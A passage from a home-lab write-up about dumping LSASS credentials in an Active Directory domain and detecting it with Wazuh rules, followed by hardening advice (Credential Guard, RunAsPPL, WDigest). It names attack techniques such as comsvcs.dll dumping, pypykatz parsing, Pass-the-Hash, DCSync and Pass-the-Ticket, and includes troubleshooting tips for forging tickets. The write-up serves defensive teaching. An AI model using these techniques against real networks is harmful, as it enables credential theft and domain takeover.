

GrantedAccess bitmask and process GUID verification:



System message confirming the critical memory read alert:



Thread ID and execution metadata:



#### Test C: Task Manager Whitelist Validation (`Rule 100128`)
Opening Task Manager triggered Rule 100128, suppressing alert noise while logging the diagnostic activity:





PowerShell testing and validation traces:







#### Test D: Dump File Creation Alert (`Rule 100129`)
The moment `C:\Users\Public\lsass.dmp` was written to disk, **Rule 100129 fired at Level 13 (Maximum Severity)**:



Document details isolating the target filename:



Sysmon Event ID 11 verification record:



Additional threat hunting views verifying live detection fidelity:









---

## 🔒 Phase 9: Enterprise Defensive Remediation & Hardening

Detecting memory dumping must be combined with proactive architectural hardening to eliminate credential theft at the operating system layer:

### 1. Windows Defender Credential Guard (Virtualization-Based Security)
- **Mechanism:** Uses Hyper-V Virtualization-Based Security (VBS) to move Kerberos keys and NTLM hashes into an isolated container called `LsaIso.exe` (Isolated LSA).
- **Impact:** Even if an attacker achieves SYSTEM privileges and dumps `lsass.exe` using `comsvcs.dll` or Mimikatz, the raw memory dump will contain no usable password hashes or Kerberos session keys.

### 2. LSA Protection (`RunAsPPL`)
- **Mechanism:** Enforces Protected Process Light (PPL) on `lsass.exe`.
- **Configuration:** Set registry value `RunAsPPL=dword:00000001` under `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`.
- **Impact:** Unsigned binaries or processes lacking Microsoft cryptographic attestation are blocked from acquiring `PROCESS_VM_READ` handles, terminating dumper tools with `ACCESS_DENIED`.

### 3. Restricting `SeDebugPrivilege`
- **Mechanism:** Audit and restrict `SeDebugPrivilege` via Group Policy (`Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> User Rights Assignment`).
- **Impact:** Restricts memory inspection rights strictly to Domain Controllers and Tier-0 administrators, preventing delegated accounts like `compromised-admin` from opening handles to system processes.

### 4. Disabling Legacy WDigest & Forcing Kerberos AES
- **Configuration:** Ensure `UseLogonCredential=dword:00000000` under `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest`.
- **Kerberos Hardening:** Enforce AES-256 Kerberos encryption types and place sensitive administrative accounts into the **Protected Users** security group, which disables NTLM hash caching entirely.

---

## 💡 Troubleshooting Matrix & Key Lessons Learned

| Issue / Symptom | Root Cause | Engineering Resolution |
|---|---|---|
| `Path not found` when copying `C:\Users\Public\Isass` | Windows font rendered lowercase `l` like capital `I`; Explorer hid file extension. | Confirmed exact filename via `Get-ChildItem -Force`; accessed `C:\Users\Public\lsass.dmp`. |
| `pypykatz` did not carve `.kirbi` ticket files | Windows Server 2022 uses updated LSASS memory structures. | Pivoted to the extracted **Kerberos AES256 key** to request fresh TGTs directly from the KDC. |
| `KDC_ERR_PREAUTH_FAILED` during `getTGT` | NetBIOS domain `SOCLAB` was used instead of FQDN Realm `SOCLAB.LOCAL`. | Mapped `WIN-SOCLAB.SOCLAB.LOCAL` in `/etc/hosts` and requested ticket matching the FQDN realm. |
| 775 false-positive alert storm on Rule 100103 | Hypervisor process `VBoxService.exe` regularly queries LSASS status with `0x1400`. | Implemented 2-tier hierarchy; restricted high-severity alerts (`Rule 100127`) to `GrantedAccess` bitmasks containing `PROCESS_VM_READ` (`0x0010`, `0x1010`, `0x1410`, `0x1fffff`). |

---

## 🏁 Conclusion

This operational lab demonstrated the full lifecycle of an advanced Active Directory credential harvesting attack:
1. Weaponizing native Windows binaries (`rundll32.exe comsvcs.dll`) to dump LSASS memory.
2. Exfiltrating artifacts out-of-band over SMB to eliminate endpoint risk.
3. Parsing offline credential caches to harvest NTLM hashes and Kerberos AES256 keys.
4. Executing lateral movement via Pass-the-Hash and escalating to Domain Administrator via DCSync.
5. Overcoming Kerberos pre-authentication errors to achieve complete, passwordless Pass-the-Ticket lateral movement.
6. Engineering high-fidelity Wazuh SIEM detection rules that filter hypervisor noise while delivering real-time alerts on weaponized credential dumping.
